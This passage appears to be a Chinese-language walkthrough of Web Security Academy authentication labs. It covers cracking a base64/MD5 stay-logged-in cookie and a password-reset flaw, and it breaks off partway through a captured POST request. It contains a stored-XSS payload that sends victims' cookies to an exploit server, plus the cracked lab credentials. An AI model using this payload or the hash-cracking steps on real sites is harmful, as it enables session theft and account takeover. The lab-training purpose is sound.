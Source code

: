 实现：

	1.用提供wiener：peter登录，选择stay-logged-in，不让拍抓包得到cookie
	2.将cookie用base64解码得到wiener:51dc30ddc473d43a6011e9ebba6ca770，浏览器搜索crackstation，将密文进一步输入破解，显示MD5解密，明文为peter
	3.log out。然后进入评论功能，评论框中输入<script>alert(1)</script>,点击发布，验证XSS漏洞
	4.然后在评论框中输入弹出cookie的脚本：<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>，填入想要显示结果的server地址，发布评论
	5.点击访问评论，在检查显示结果的server中的访问日志，发现以下内容：180.171.95.11   2022-04-24 08:20:33 +0000 "GET /stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36"
	6.将cookie用base64解码得到carlos:26323c16d5f4dabff3bb136f2460a943，刚好是carlos的信息，再次用crackstation，将密文进一步输入破解，显示MD5解密，明文为onceuponatime，完成。

###3.2重置密码###

现实中，用户常常忘记密码，故重置密码功能很常见。由于常用的基于密码的认证机制不适用于这种场景， 网站必须以来代替的方法来保证真正的用户来重置密码。基于这个原因，密码重置的功能本身就很危险，需要安全地实现。通常有集中不同的方式来实现，也带来了不同程度的漏洞。

####通过邮件发送密码####
如果网站一开始就能安全地处理密码，它不可能将当前的密码发送给用户。相反，一些网站生成一个新密码，并通过电子邮件发送给用户。

一般来说，要避免通过不安全的通道发送持久密码。在这种情况下，安全性要么依赖于生成的密码在一个较短时间后会过期，要么依赖于用户能够立刻修改密码。否则这种方法很容易收到中间人的攻击。

邮件通常不认为是安全的，因为邮箱是持久的，并且不是真正为机密信息的安全存储设计的。很多用户也会通过不安全的通道自动将邮箱同步到多个设备上。

####采用URL重置密码####
一个更具鲁棒性的重置密码的方法是通过将唯一的URL发送给用户，引导用户到密码重置页面。这种方法不安全的实现的时候，可能采用可以猜到的参数构建URL，来区别哪个账户正在被重置密码，例如：

	http://vulnerable-website.com/reset-password?user=victim-user

在这个例子中，一个攻击者能够根据已经掌握的用户名来改变user这个参数。攻击者就能够直接进入密码重置页面，然后将任意用户的密码进行修改。

一种更高明的实现方法是产生一个高熵的难以猜测的token，并基于这个token产生重置密码的URL。在最优情况下，URL应该不提供任何有关被重置的用户密码的提示。如以下的URL:

	http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8

当用户访问这个URL,系统应该检查这个token是否在后端存在，如果存在，该用户的密码才能够被重置。这个token应当在一小段时间后失效，并且密码重置后要立即摧毁。然而，当重置密码的表格提交后，有些网站无法再次验证token。在这种情况下，攻击者能够在他自己的账户中直接访问重置密码的页面，然后删除这个token，进而利用该页面重置任意用户的密码。

####lab3密码重置逻辑错误####
靶场中，重置密码功能有漏洞，提供一个用户名和密码wiener:peter，要求删除carlos的密码，并访问他的账户。

实现：

	1.进入网站，选择忘记密码，输入用户名wiener
	2.在wiener的邮箱中收到重置密码的link
	3.点击link，按照要求输入新的密码，发送请求。
	4.通过burp抓包，发现请求如下：
	POST /forgot-password?temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7 HTTP/1.1
    Host: ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net
    Cookie: session=MCSlkVBJFDdST9HkKknQhLA9Sr3ldFB6
    Content-Length: 113
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document